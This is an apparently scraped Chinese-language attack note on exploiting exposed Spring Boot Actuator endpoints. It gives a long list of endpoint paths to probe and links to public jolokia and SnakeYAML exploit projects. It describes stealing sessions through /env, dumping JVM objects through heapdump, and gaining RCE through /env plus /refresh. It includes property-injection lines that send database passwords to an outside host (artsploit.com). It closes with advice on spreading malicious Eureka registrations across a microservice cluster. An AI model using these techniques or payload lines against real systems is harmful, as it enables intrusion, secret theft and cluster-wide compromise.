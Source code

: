 mpgn/Spring-Boot-Actuator-Exploit: Spring Boot Actuator (jolokia) XXE/RCE https://github.com/mpgn/Spring-Boot-Actuator-Exploit
artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads https://github.com/artsploit/yaml-payload

1.Spring Boot Actuators 相关漏洞超级好用，很多厂商一开始都不懂, 直接对外开放Spring Boot Actuators, 造成了有一段时间每个用了 Spring Boot的厂商都出了问题，尤其是现在很多厂商使用微服务框架, 通过网关进行路由分发, 一些子目录通常对应一个Spring Boot启动 的服务。然后子目录比如 http://123.123.123.123/admin/env , http://123.123.123.123/manager/env也都是可以出现的/env 可以偷 session, RCE/heapdump 可以直接dump jvm中的对象, 使用 jhat 可以读取里面的对象可以遍历如下的endpoint, 1.x 2.x的目录不一样, 所 以都覆盖了一下
/trace
/health
/loggers
/metrics
/autoconfig
/heapdump
/threaddump
/env
/info
/dump
/configprops
/mappings
/auditevents
/beans
/jolokia
/cloudfoundryapplication
/hystrix.stream
/actuator
/actuator/auditevents
/actuator/beans
/actuator/health
/actuator/conditions
/actuator/configprops
/actuator/env
/actuator/info
/actuator/loggers
/actuator/heapdump
/actuator/threaddump
/actuator/metrics
/actuator/scheduledtasks
/actuator/httptrace
/actuator/mappings
/actuator/jolokia
/actuator/hystrix.stream
/monitor
/monitor/auditevents
/monitor/beans
/monitor/health
/monitor/conditions
/monitor/configprops
/monitor/env
/monitor/info
/monitor/loggers
/monitor/heapdump
/monitor/threaddump
/monitor/metrics
/monitor/scheduledtasks
/monitor/httptrace
/monitor/mappings
/monitor/jolokia
/monitor/hystrix.stream
这里通过 /env + /refresh 进行rce应该还有其他利用手法, 当spring boot reload的时候会进行一些默认操作，里面就有操作空间, 很像 fastjson反序列化。
2.就算实在不能RCE, 这里也有个技巧可以偷取 Spring 配置文件中的加密字段, 偷一下生产环境的密码/key也ok
eureka.client.serviceUrl.defaultZone=http://${somedb.pasword}@127.0.0.1:5000
spring.cloud.bootstrap.location=http://${somedb.password}@artsploit.com/yaml-payload.yml
3.尤其是使用spring eureka做集群的时候, 通常拿到一台服务器, 就可以传递恶意注册到其他server, 从而感染整个微服务集群eureka 通常 是 server 也是 client, 无论对方请求什么都直接返回恶意序列化xml就可以了
